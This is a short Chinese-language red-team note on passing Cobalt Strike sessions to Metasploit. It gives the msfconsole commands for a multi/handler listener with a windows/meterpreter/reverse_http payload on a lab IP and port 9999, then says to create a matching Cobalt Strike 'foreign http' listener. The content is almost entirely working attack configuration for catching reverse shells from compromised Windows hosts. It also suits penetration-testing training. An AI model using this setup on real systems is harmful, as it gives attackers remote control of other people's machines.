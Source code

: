 
#### cs派生

msf的配置

use exploit/multi/handler 

set payload windows/meterpreter/reverse_http			# 这里的payload要和CS的一样

set lhost 192.168.130.130						                        # msf的ip

set lport 9999

run

![img](assets/1654435983545-4cdd0781-5d0e-4f23-bbb0-ab41c0cbb113.png)

cs建立监听，payload选择foreign http

![img](assets/1654436050708-498b4235-8703-4b74-bb1b-63425699877b.png)
